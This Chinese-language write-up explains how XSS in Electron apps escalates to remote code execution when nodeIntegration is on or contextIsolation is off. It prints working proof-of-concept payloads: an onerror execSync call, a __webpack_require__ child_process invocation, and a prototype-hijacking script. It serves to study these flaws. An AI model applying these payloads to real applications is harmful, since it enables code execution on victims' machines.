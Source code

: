 因为没有对 xss 进行过滤，导致我们可以很容易的弹个框

```plain
<a onmouseover="alert(1)"
```

在阅读代码时可以看到

```plain
const { app, BrowserWindow } = require('electron')
function createWindow() {
    const win = new BrowserWindow({
        width: 800,
        height: 600,
        webPreferences: {
            nodeIntegration: true
        }
    })
    win.loadFile('index.html')
}
```

他的 nodeIntegration 设置为了 true，这个应该是最简单的情况了，他的沙箱是关闭的，我们可以很容易进行 rce 像这样

```plain
<img src=x onerror="alert(require('child_process').execSync('calc').toString());">
```

在我进行挖掘某个内部通讯软件的时候，还出现了一个可以通过原型链来利用`__webpack__require`来进行 rce 的方式

```plain
window.__webpack_require__("module")._load("child_process").execFile("/System/Applications/Calculator.app/Contents/MacOS/Calculator")
```

而在 NI 关闭的情况下似乎只能通过一些 V8 的洞来进行操作，但是实际上还有一个配置项值得关注

contextIsolation 允许开发人员在专用的 JavaScript 上下文中运行预加载脚本和 Electron API 中的代码。它在 Electron 的本地 JavaScript 代码和网络应用程序的 JavaScript 代码之间引入了分离的上下文，因此执行应用程序的 JavaScript 代码不会影响本地代码。

如果禁用了隔离，无论 "nodeIntegration "选项如何，Electron 都允许网络应用程序的 JavaScript 代码使用 Node.js 功能

```plain
<script>
const origEndWith = String.prototype.endsWith;
String.prototype.endsWith = function(...args) {
if (args && args[0] === "/electron") {
String.prototype.endsWith = origEndWith;
return true;
}
return origEndWith.apply(this, args);
}

const origCallMethod = Function.prototype.call;
Function.prototype.call = function(...args){
if(args[3] && args[3].name === "__webpack_require__") {
window.__webpack_require__ = args[3];
Function.prototype.call = origCallMethod;
}
return origCallMethod.apply(this, args);
}
console.log(window.__webpack_require__);
</script>
```

